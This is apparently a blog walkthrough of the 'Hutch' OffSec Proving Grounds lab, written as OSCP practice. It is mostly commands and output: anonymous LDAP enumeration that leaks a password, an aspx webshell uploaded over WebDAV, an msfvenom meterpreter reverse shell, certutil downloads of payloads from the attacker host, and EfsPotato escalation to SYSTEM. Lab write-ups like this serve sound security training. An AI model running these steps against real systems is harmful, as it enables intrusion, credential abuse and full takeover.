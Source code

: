 ```yaml
---
title: Hutch 
date: 2022-10-18 12:00:00
categories: [OSCP,PG]
tags: [pg]
---
```


# Hutch

## Summary

We are going to attack **Hutch** in the OSCP Proving Ground. The machine is rated as **Hard** and can be tackled by different ways. I've chosen the most reliable form that can be often spotted in the wild.

## Enumeration

### Rustscan

`sudo rustscan -t 500 -b 500 --ulimit 65000 -a 192.168.162.122 -- -sV -sC -oA ./{{ip}}`

```bash
[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 65000.
Open 192.168.71.122:53
Open 192.168.71.122:80
Open 192.168.71.122:88
Open 192.168.71.122:135
Open 192.168.71.122:139
Open 192.168.71.122:389
Open 192.168.71.122:445
Open 192.168.71.122:464
Open 192.168.71.122:593
Open 192.168.71.122:636
...
```

Thanks to rust we know that **webdav** is enabled on port 80

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   Server Date: Wed, 29 Jun 2022 03:55:18 GMT
|   Server Type: Microsoft-IIS/10.0
|_  WebDAV type: Unknown
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-06-29 03:54:30Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
...
```

### LDAP

We're going to check for null credentials and are sucessfull. We identified that the user **hutch.offsec/fmcsorley** uses the password **CrabSharkJellyfish192**

`ldapsearch -x -H ldap://192.168.162.122 -D '' -w '' -b "DC=hutch,DC=offsec"`

```bash
# hutch.offsec
dn: DC=hutch,DC=offsec

# Administrator, Users, hutch.offsec
dn: CN=Administrator,CN=Users,DC=hutch,DC=offsec

# Freddy McSorley, Users, hutch.offsec
dn: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Freddy McSorley
description: Password set to CrabSharkJellyfish192 at user's request. Please change on next login.
distinguishedName: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec
name: Freddy McSorley
sAMAccountName: fmcsorley
userPrincipalName: fmcsorley@hutch.offsec
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=hutch,DC=offsec
...
```

#### Verify Credentials

Using **crackmapexec** we're able to verify that the credentials are valid

`cme smb 192.168.162.122 -u 'fmcsorley' -p 'CrabSharkJellyfish192' --shares`

```bash
SMB         192.168.162.122 445    HUTCHDC          [*] Windows 10.0 Build 17763 x64 (name:HUTCHDC) (domain:hutch.offsec) (signing:True) (SMBv1:False)
SMB         192.168.162.122 445    HUTCHDC          [+] hutch.offsec\fmcsorley:CrabSharkJellyfish192 
SMB         192.168.162.122 445    HUTCHDC          [+] Enumerated shares
SMB         192.168.162.122 445    HUTCHDC          Share           Permissions     Remark
SMB         192.168.162.122 445    HUTCHDC          -----           -----------     ------
SMB         192.168.162.122 445    HUTCHDC          ADMIN$                          Remote Admin
SMB         192.168.162.122 445    HUTCHDC          C$                              Default share
SMB         192.168.162.122 445    HUTCHDC          IPC$            READ            Remote IPC
SMB         192.168.162.122 445    HUTCHDC          NETLOGON        READ            Logon server share 
SMB         192.168.162.122 445    HUTCHDC          SYSVOL          READ            Logon server share
```

## Foothold

### Shell

We will use our knowlege about webdav which is enabled for port 80 and the credentials we gathered to upload an aspx webshell

Create a listener to catch any potential incoming shells

`rlwrap -cAr nc -lvnp 4444`

Upload a command shell using the user:pass combination we discovered

`curl --basic --user "fcmsorley:CrabSharkJellyfish192" -T "cmdasp.aspx" "http://192.168.162.122/"`

Open a browser and navigate to [http://192.168.162.122/cmdasp.aspx](http://192.168.162.122/cmdasp.aspx) and use an encoded payload to get a shell
> Just use: [Revshells](https://www.revshells.com/) to generate a payload :)

## Privilege Escalation

### Local Enumeration

Let's check for privs we have
`whoami /priv`
```powershell
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
> SeImpersonatePrivilege is an easy win, it can be abused in mutliple ways and will most of the times be an instant priv esc vector

### Escalation

Thanks to **SeImpersonatePrivilege** we're able to use one of the Potato Family exploits to get to nt authority/system level

We'll chose one that's not as famous as some others **EfsPotato**
[EfsPotato](https://github.com/zcgonvh/EfsPotato)

We could have used an encoded powershell payload again to get our shell but I decided to throw some meterpreter in the mix

Create meterpreter binary that connects back to a listener on port 4443

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.162 LPORT=4443 -f exe -o meterpreter.exe`

Upload EfsPotato , meterpreter.exe and build EfsPotato on the target. I used a python http.server for transfering files onto the target
```powershell
cd c:\users\public
# Download our files
certutil.exe -urlcache -split -f http://192.168.49.162/EfsPotato.cs
certutil.exe -urlcache -split -f http://192.168.49.162/meterpreter.exe
# Build EfsPotato.exe
csc.exe EfsPotato.cs -nowarn:1691,618
```

Setup Metasploit to catch our reverse shell
```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 4443
LPORT => 4443
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.162:4443 
```

Launch our binary with escalated privileges using **EfsPotato** on our target

`c:\users\public\EfsPotato.exe c:\users\public\meterpreter.exe`

Let's check if we were successfull
```bash
[*] Sending stage (175174 bytes) to 192.168.162.122
[*] Meterpreter session 1 opened (192.168.49.162:4443 -> 192.168.162.122:51950 ) at 2022-08-30 12:50:46 +0200
meterpreter > shell
Process 3700 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\users\public>whoami
whoami
nt authority\system
```

